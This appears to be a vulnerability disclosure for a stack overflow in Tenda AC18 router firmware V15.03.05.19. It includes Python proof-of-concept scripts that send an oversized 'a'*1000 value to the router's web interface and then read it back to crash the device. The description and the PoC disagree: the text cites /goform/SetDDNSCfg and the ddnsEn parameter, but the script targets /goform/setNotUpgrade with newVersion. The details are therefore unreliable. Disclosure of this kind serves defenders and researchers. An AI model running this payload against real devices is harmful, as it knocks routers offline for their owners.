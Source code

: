 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/SetDDNSCfg` url. The `Var` variable receives the `ddnsEn` parameter from a POST request and is stored in the configuration item named`not.notice.version` through the SetValue function.To run to this branch, the value of the `action` parameter needs to be set to 1.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250927_234814.png)

`not.notice.version`  configuration item can  be retrieved through the GetValue function in the `/goform/GetRouterStatus` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows by the `s` variable.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250927_223700.png)

## PoC

Set `not.notice.version`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setNotUpgrade"
payload = "a"*1000

data = {"action": 1,"newVersion":payload}
response = requests.post(url, data=data)
print(response.text)
```

Get `not.notice.version`

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/GetRouterStatus"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)